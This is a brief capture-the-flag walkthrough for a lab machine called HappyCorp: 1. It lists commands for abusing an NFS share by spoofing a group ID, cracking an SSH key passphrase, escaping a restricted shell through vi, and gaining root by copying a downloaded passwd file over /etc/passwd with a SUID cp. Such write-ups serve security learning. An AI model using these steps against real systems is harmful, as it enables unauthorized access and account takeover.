 
# HappyCorp: 1

- 1- Let's started with scanning the target machine that reveals an important port open:
2049 -> open -> NFS Share.
- 2- Enumerating the shared files : ```showmount -e 10.0.4.36 ```
- 3- Mounting the shared directory: ```mount -t nfs 10.0.4.36:/home/karl /tmp/share ```
- 4- Get in the karl directory 
- 5- Create a group identifiant 1001: ``` groupadd -g 1001 mygroup```
- 6- Affecte my user account to the group created: ``` useradd -G mygroup root``` => we can access to .ssh shared file
- 7- Upload his private ssh key -> use ssh2john to retrieve the passphrase.
- 8- Connect with private ssh to rbash shell
- 9- Abuse vi to get out from the restricted bash: ``` vi -> :!/bin/sh```
- 10- ``` find / -perm -u=s -type f 2>/dev/null```
- 11- /bin/cp: can be runned as root user.
- 12- ```wget http://10.0.4.36:8000/passwd  -> cp passwd /etc/passwd -> su tbag (root user)```
- 13- boooooooooooooooooooom
